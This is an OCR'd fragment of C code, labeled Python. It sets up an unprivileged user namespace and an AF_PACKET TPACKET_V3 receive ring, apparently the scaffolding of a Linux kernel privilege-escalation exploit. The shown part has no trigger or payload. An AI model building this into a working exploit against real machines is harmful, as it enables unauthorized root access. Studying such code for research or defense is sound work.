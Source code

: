 ```Python
        int temp_fd;
        uid_t uid = getuid();
        gid_t gid = getgid();
        char buffer[0x100];

        if (unshare(CLONE_NEWUSER | CLONE_NEWNS | CLONE_NEWNET))
        {
                perror("unshare");
                exit(1);
        }

        temp_fd = open("/proc/self/setgroups", O_WRONLY);
        write(temp_fd, "deny", strlen("deny"));
        close(temp_fd);
        
        temp_fd = open("/proc/self/uid_map", O_WRONLY);
        snprintf(buffer, sizeof(buffer), "0 %d 1", uid);
        write(temp_fd, buffer, strlen(buffer));
        close(temp_fd);
        
        temp_fd = open("/proc/self/gid_map", O_WRONLY);
        snprintf(buffer, sizeof(buffer), "0 %d 1", gid);
        write(temp_fd, buffer, strlen(buffer));
        close(temp_fd);
        return;
}

int packet_socket_setup(uint32_t block_size, uint32_t frame_size,
                        uint32_t block_nr, uint32_t sizeof_priv, int timeout) {
        int s = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
        if (s < 0)
        {
                perror("[-] socket (AF_PACKET)");
                exit(1);
        }
        
        int v = TPACKET_V3;
        int rv = setsockopt(s, SOL_PACKET, PACKET_VERSION, &v, sizeof(v));
        if (rv < 0)
        {
                perror("[-] setsockopt (PACKET_VERSION)");
                exit(1);
        }
        
        struct tpacket_req3 req3;
        memset(&req3, 0, sizeof(req3));
        req3.tp_sizeof_priv = sizeof_priv;
        req3.tp_block_nr = block_nr;
        req3.tp_block_size = block_size;
        req3.tp_frame_size = frame_size;
        req3.tp_frame_nr = (block_size * block_nr) / frame_size;
        req3.tp_retire_blk_tov = timeout;
        req3.tp_feature_req_word = 0;

        rv = setsockopt(s, SOL_PACKET, PACKET_RX_RING, &req3, sizeof(req3));
        if (rv < 0)
        {
                perror("[-] setsockopt (PACKET_RX_RING)");
                exit(1);
        }

        struct sockaddr_ll sa;
        memset(&sa, 0, sizeof(sa));
```